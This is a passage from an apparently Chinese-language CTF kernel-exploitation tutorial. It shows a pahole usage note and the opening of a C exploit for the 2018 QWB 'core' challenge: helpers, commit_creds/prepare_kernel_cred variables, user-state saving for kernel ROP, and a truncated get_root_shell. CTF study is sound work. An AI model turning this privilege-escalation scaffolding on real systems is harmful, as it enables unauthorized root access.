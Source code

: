 也可以通过如下方式来仅仅查看某个结构体：

```bash
pahole -C <struct_name>
// e.g. pagole -C pt_regs
```

### 第一个exp: 2018_qwb_core

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#include <stdbool.h>
#include <stdarg.h>

void info(const char *format, ...)
{
    va_list args;
    va_start(args, format);
    printf("%s", "\033[34m\033[1m[*] ");
    vprintf(format, args);
    printf("%s", "\033[0m\n");
}

void success(const char *format, ...)
{
    va_list args;
    va_start(args, format);
    printf("%s", "\033[32m\033[1m[+] ");
    vprintf(format, args);
    printf("%s", "\033[0m\n");
}

void error(const char *format, ...)
{
    va_list args;
    va_start(args, format);
    printf("%s", "\033[31m\033[1m[x] ");
    vprintf(format, args);
    printf("%s", "\033[0m\n");
}

size_t commit_creds = 0, prepare_kernel_cred = 0;

size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    asm volatile(
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;");
    info("Status has been saved.");
}

void get_root_shell(void)
{
    if (getuid())
    {
```